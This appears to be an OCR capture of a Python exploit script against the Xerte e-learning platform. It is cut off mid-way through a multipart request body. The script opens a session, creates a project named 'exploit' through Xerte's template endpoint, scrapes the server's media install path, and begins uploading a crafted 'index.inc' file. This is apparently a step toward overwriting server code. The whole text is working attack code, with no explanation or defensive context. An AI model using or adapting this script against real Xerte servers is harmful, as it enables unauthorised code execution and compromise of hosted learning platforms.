 import requests
import re

xerte_base_url = "http://127.0.0.1"
php_session_id = "" # If guest is not enabled, and you have a session ID. Put it here.

with requests.Session() as session:
    # Get a PHP session ID
    if not php_session_id:
        session.get(xerte_base_url)
    else:
        session.cookies.set("PHPSESSID", php_session_id)

     # Use a default template
    data = {
        'tutorialid': 'Nottingham',
        'templatename': 'Nottingham',
        'tutorialname': 'exploit',
        'folder_id': ''
    }

    # Create a new project in order to find the install path
    template_id = session.post(xerte_base_url + '/website_code/php/templates/new_template.php', data=data)

    # Find template ID
    data = {
        'template_id': re.findall('(\d+)', template_id.text)[0]
    }

    # Find the install path:
    install_path = session.post(xerte_base_url + '/website_code/php/properties/media_and_quota_template.php', data=data)
    install_path = re.findall('mediapath" value="(.+?)"', install_path.text)[0]

    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/20100101 Firefox/94.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'nl,en-US;q=0.7,en;q=0.3',
        'Content-Type': 'multipart/form-data; boundary=---------------------------170331411929658976061651588978',
       }

    # index.inc file
    data = \
    '''-----------------------------170331411929658976061651588978
Content-Disposition: form-data; name="filenameuploaded"; filename="index.inc"
Content-Type: application/octet-stream
